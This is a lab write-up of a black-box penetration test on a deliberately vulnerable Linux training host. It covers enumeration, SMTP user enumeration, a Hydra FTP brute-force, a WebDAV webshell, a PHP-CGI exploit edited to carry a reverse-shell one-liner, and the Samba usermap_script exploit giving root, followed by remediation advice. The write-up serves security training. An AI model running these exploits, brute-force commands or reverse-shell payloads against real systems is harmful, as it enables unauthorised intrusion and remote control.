# Black Box Penetration Test - Linux

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target:** demo.ine.local — Linux, multi-service (Metasploitable-style)<br>
**Attacker:** Kali (MSF)

> The lab IP changed between sessions (`10.2.17.67`, `10.2.28.99`, `10.2.24.174`); the
> methodology is identical.

## 1. Executive Summary

A black-box assessment of a deliberately-vulnerable Linux host exposing dozens of services.
After full enumeration, three independent compromise paths are demonstrated: **vsFTPd**
(reached via SMTP user enumeration → Hydra → a WebDAV-uploaded webshell), **PHP-CGI argument
injection** (PHP < 5.3.12), and the **Samba `usermap_script` backdoor**, which yields a
direct **root** shell.

## 2. Enumeration

```bash
ping -c 4 demo.ine.local
db_nmap -sS -p- --open -Pn -n <target>
hosts ; services
```







A large attack surface: FTP, SSH, Telnet, SMTP, HTTP, SMB (**Samba 3.0.20-Debian**), MySQL,
PostgreSQL, IRC, distccd, etc.







## 3. Path A — vsFTPd

Default-script scan of the FTP service.

```bash
db_nmap -sV -sC -p21 <target>
```





> The `vsftpd_234_backdoor` module is **patched** on this host, so we take another route.

An SMTP service is present — enumerating users for a targeted brute-force.

```bash
use auxiliary/scanner/smtp/smtp_enum
run
```



Brute-forcing the `service` account with Hydra.

```bash
hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt <target> ftp
# service:service
```





The website has an empty **WebDAV** directory — uploading a webshell there.







Executing `shell.php` returns a reverse shell.



## 4. Path B — PHP-CGI Argument Injection

Default-script scan of the web service / checking `phpinfo.php`.

```bash
db_nmap -sV -sC -p80 <target>
```





Searchsploit matches the running PHP to the **CGI argument injection** exploit (PHP < 5.3.12
/ < 5.4.2, `18836.py`).

```bash
searchsploit php cgi      # php/remote/18836.py
```





Replacing the exploit's `phpinfo` command with a reverse-shell payload.

```php
$sock=fsockopen("IP","Port");exec("/bin/sh -i <&4 >&4 2>&4");
```









## 5. Path C — Samba usermap_script (→ root)

Default-script scan + exact version with `smb_version`.

```bash
db_nmap -sV -sC -p445 <target>
use auxiliary/scanner/smb/smb_version
run          # Samba 3.0.20-Debian
```





Samba 3.0.20 is vulnerable to the `usermap_script` command injection.

```bash
searchsploit samba
use exploit/multi/samba/usermap_script
set RHOSTS <target>
exploit
```





The exploit returns a **root** command shell directly.

```
/bin/bash -i
root@...:/#
```



Upgrading to a Meterpreter session.

```bash
sessions -u 1
```









## 6. Remediation Recommendations

1. **Decommission/upgrade all legacy services** — vsFTPd, Samba 3.0.20 (`usermap_script`),
   and PHP < 5.3.12 are all remotely exploitable; patch to supported versions.
2. **Disable anonymous FTP and WebDAV uploads**, and make web directories non-executable.
3. **Enforce strong passwords & lockout** (the `service` account used its own name) and
   disable SMTP user enumeration (`VRFY`/`EXPN`).
4. **Reduce the attack surface** — close unused services (telnet, rsh/rlogin, distccd, IRC)
   and segment the host; run services with least privilege.
